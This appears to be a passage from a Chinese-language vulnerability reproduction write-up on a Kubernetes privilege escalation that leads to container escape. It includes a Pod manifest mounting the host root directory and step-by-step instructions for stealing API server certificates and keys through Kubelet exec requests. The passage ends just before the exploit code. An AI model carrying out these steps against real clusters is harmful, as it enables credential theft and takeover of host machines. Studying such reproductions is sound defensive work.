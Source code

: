 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202112061556183.png-water_print](assets/1699410706-fcebe1128a56dcd2334983f38af9caf8 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202112061556183.png-water_print")

#### [](#333-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)3.3.3 漏洞复现

目标：通过该漏洞，进行提权，创建一个挂载主机根目录的 Pod，实现容器逃逸。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```yaml<br># attacker.yaml<br>apiVersion: v1<br>kind: Pod<br>metadata:<br>  name: attacker<br>spec:<br>  containers:<br>  - name: ubuntu<br>    image: ubuntu:latest<br>    imagePullPolicy: IfNotPresent<br>    # Just spin & wait forever<br>    command: [ "/bin/bash", "-c", "--" ]<br>    args: [ "while true; do sleep 30; done;" ]<br>    volumeMounts:<br>    - name: escape-host<br>      mountPath: /host-escape-door<br>  volumes:<br>    - name: escape-host<br>      hostPath:<br>        path: /<br>``` |

思路：

1.  构造错误请求，建立经 Kubernetes API Server 代理到 Kubelet 的高权限 WebSocket 连接。
2.  利用高权限 Websocket 连接，向 Kubelet 发起 `/runningpods/` 请求，获得当前活动 Pod 列表。
3.  从活动 Pod 列表中找到 Kuberetes API Server 的 Pod 名称。
4.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 ca.crt”作为参数，从返回结果中保存窃取到的文件。
5.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 `apiserver-kubelet-client.crt` ”作为参数，从返回结果中保存窃取到的文件。
6.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 apiserver-kubelet-client.key”作为参数，从返回结果中保存窃取到的文件
7.  使用 kubectl 命令行工具，指定访问凭证为第 4、5、6 步中窃取到的文件，创建挂载了宿主机根目录的 Pod，实现容器逃逸。

EXP 如下：

|     |     |     |
| --- | --- | --- |